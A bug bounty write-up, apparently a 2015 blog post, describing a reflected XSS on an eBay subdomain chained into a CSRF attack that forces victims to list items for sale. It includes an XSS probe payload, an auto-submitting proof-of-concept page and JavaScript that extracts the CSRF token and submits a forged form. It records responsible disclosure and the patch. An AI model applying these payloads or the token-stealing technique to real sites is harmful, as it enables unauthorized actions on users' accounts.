 ```yaml
---
layout: post

title: "Making you sell what I want: Story of an Ebay XSS"
subtitle: ""
cover_image: ebay/ebay-sign.jpg

excerpt: "Reflected
 XSS vulnerability could be leveraged to make the victim sell unwanted items "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/06/20/ebay


---
```


### TL;DR
A XSS vulnerability in Ebay can be exploited by an attacker to bypass CSRF protection and make a victim sell unwanted items.
This is a pretty basic technique but it could be interesting for people which have just entered in the Bug Bounty world.

### XSS on Ebay
Let's talk about my first bug hunting experience.
First of all why have I chosen to test Ebay? Simple:

- The Ebay website was first **developed lots of time ago** when the word ``"security"`` was not so popular and there weren't beatiful frameworks which prevents developers to make shit happen;
- Ebay is a pretty high level profile website and has a **Bug Bounty program** which awards with a mention in their Security Researchers Acknowledgement page;
- Ebay doens't offer a cash award (yes this doesn't seem to be a pro but this means that **not so many people have tested it** unlike Google and Facebook);

When trying to find a security issue the best place to **search** is **where other people hasn't already looked at**, so let's forgot for a moment the main page and let's search in some other subdomains. Two great tools to discover subdomains are [dnsenum](https://github.com/fwaeytens/dnsenum) and [fierce](http://tools.kali.org/information-gathering/fierce). Looking around I found **csr.ebay.it** which seems to handle the process of selling items as a merchant. Between the different requests sent to this domain a POST request to ``http://csr.ebay.it/cse/results.jsf `` caught my attention because it has a ``keyword`` parameter which is reflected in the response.

<div class="full zoomable">
  <img src="/images/ebay/burp_ebay.png">
</div>

A good payload which I use to test for XSS is  ``xxx"><svg/onload=alert(1)>`` because it provides two functionalities:

1. The string ``xxx``  is very unlikely to be present in the page so by **inspecting the source code** of the HTML page and searching for ``xxx`` I can discover the **location where my input has been reflected**;
2. The rest of the payload ``"><svg/onload=alert(1)>`` may **trigger a XSS vulnerability** popping up an alert box;

So we intercept the request to http://csr.ebay.it/cse/results.jsf  using [Burp](http://portswigger.net/burp/) edit the ``keyword`` field with ``"><svg/onload=alert(1)>``, submit the request and wait for:

<div class="full zoomable">
  <img src="/images/ebay/ebay_xss.jpg">
</div>

Yay!!! This is our lucky day but wait a minute where is the session cookie?

<div class="full zoomable">
  <img src="/images/ebay/session_cookie.png">
</div>

Oh no. The session cookie is set ``HttpOnly`` this means that it is **not accessible through javascript**, bye bye session hijacking but let's see what we could do with it.
Let's first create our PoC page; this is very straightforward, we just need to create an html form containing the fields and the value which we want to submit and submit it as soon as the user visit the page.

{% highlight html %}
<!DOCTYPE html>
<html>
  <head>
    <script src="https://code.jquery.com/jquery-2.1.3.min.js"> </script>
  </head>
  <body>
    <form id="myform" action="http://csr.ebay.it/cse/results.jsf?sbh=true" method="POST">
      <input name="keywords" id="keywords" value="&quot;><svg/onload=alert(document.domain+document.cookie)>" >
      <input name="btnStartGandalf" id="btnStartGandalf" value="Inizia" >
      <input name="startPage" id="startPage" value="true" >
      <input name="pageName" id="pageName" value="start" >
    </form>
  </body>
</html>

<script>
$.ready(
    $('#myform').submit()
      );
</script>
{% endhighlight %}

### From XSS to CSRF

I won't bother you on what a CSRF attack is, there are [very good explanation](http://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx/) out there, the only thing to know is that this attack can be exploited to **make the user do unwanted actions** and can be prevented by attaching a hidden field ``csrf_token`` to the form which will be submitted.
Let's recapt what we know so far:

1. we can run javascript code through the **XSS in crs.ebay.it**;
2. crs.ebay.it domain enables the user to **sell items**;
3. the selling functionality is **protected against CSRF** through a hidden token in the form;

Attack plan: exploit the XSS to **exfiltrate the CSRF token** and use it to make a request in the behalf of the user.
We modify the payload before and instead of displaying an alert message (``"><svg/onload=alert(1)>``) we include a script which:

1. Send a GET request to the page containing the token;
2. Parse the page to get the token value (in our case the javax.faces.ViewState field);
3. Send a post request to ``http://csr.ebay.it/cse/list.jsf`` to publish the product with the fields which we have set in the form validated with the csrf token which we have exfiltrated before;


{% highlight javascript %}

//Generate the form which will be send to sell the item
var f = document.createElement("form");
f.setAttribute('id',"myform");
f.setAttribute('method',"post");
f.setAttribute('action',"http://csr.ebay.it/cse/list.jsf");

var i1 = document.createElement("input");
i1.setAttribute('type',"text");
i1.setAttribute('name',"title");
i1.setAttribute('value',"Iphone6");

...Add here all the other fields for the item to sell

var i2= document.createElement("input");
i2.setAttribute('type',"text");
i2.setAttribute('name',"javax.faces.ViewState");
i2.setAttribute('id',"javax.faces.ViewState");
i2.setAttribute('value',"");


var s = document.createElement("input");
s.setAttribute('type',"submit");
s.setAttribute('value',"Submit");

document.body.appendChild(f);
f.appendChild(i1);
f.appendChild(i2);
f.appendChild(s);


$.ready(
    $.ajax({
      url:"http://csr.ebay.it/cse/list.jsf?usecase=create&mode=AddItem&categoryId=30095",
      type: 'get',
      //1 sending a get request to the page containing the token
      success: function(data,status){
        var html = $.parseHTML(data);
        //2 parsing the html to find the token value
        var token = $(html).find( 'input[name="javax.faces.ViewState"]' ).val();
        console.log(token)
        //3 setting this value to the csrf_token field in the constructed form
        $("input[id='javax.faces.ViewState']").val(token)
        //4 submitting the form
        $('#myform').submit()
      }
    })
);

{% endhighlight %}

Hooray!! We have made the victim, which click on our link, sell an Iphone 6.
**Kudos to the Ebay security team** which has been very responsive and patched the vulnerability in a week.
I think that, at the moment, the security level of Ebay is not enough strong considering the sensitive informations and the profitable actions which the platform provide, so I keep wondering why Ebay hasn't already started a  payment based Bug Bounty program on platforms like Hackerone or Bugcrowd.

- 7 April 2015 Vulnerability reported to Ebay Security Team
- 15 April 2015 Vulnerability patched
- 25 May 2015 Added to the Responsible Disclosure Acknowledgements page
- 20 June 2015 Public disclosure



